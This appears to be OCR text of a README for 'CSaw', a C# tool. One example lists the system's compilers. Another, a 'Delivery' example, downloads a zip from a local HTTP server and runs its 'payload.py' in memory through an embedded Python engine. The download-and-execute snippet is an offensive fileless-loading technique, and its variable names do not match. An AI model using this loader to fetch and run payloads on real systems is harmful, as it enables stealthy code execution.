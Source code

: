 
## CSaw: List available managed compliers on the system (CSX format)
We would like to introduce a way to quickly REPL/prototype code 

```csharp
directive> using System;
directive> using System.IO;
directive> using System.Text;
directive> using System.CodeDom;
directive> using System.Diagnostics;
directive> using System.CodeDom.Compiler;
directive> END
code> foreach (System.CodeDom.Compiler.CompilerInfo ci in
code> System.CodeDom.Compiler.CodeDomProvider.GetAllCompilerInfo())
code> {
code>   foreach (string language in ci.GetLanguages())
code>   System.Console.Write("{0} ", language);
code>   System.Console.WriteLine();
code> }
code> END
Perforing dynamic compile and execution.

--- Result ---
c# cs csharp
vb vbs visualbasic vbscript
js jscript javascript
c++ mc cpp
directive>
```


## Delivery: Load PY over network, from CS code
Example: Direct PYDLR invoke

```csharp

WebClient wc = new WebClient();
Console.WriteLine("Getting Code payloads ...");
byte[] dllzip = wc.DownloadData(@"http://127.0.0.1:8000/Code.zip");

Stream zipdata = new MemoryStream(scriptzip);
Stream unzippedDataStream;
ZipArchive archive = new ZipArchive(zipdata, ZipArchiveMode.Read);

foreach (ZipArchiveEntry entry in archive.Entries)
{

    if (entry.FullName == @"payload.py")
    {
        Console.WriteLine("Unzipped File: {0}", entry.Name);
        unzippedDataStream = entry.Open();

        StreamReader reader = new StreamReader(unzippedDataStream);
        string codeText = reader.ReadToEnd();
        pythonScript = pengine.CreateScriptSourceFromString(codeText);
        Console.WriteLine("Executing Source >>>  {0} <<< ...", 
                        codeText.Substring(0, (codeText.Length >= 80) ? 79 : codeText.Length));
        pythonScript.Execute();
    }

}

```
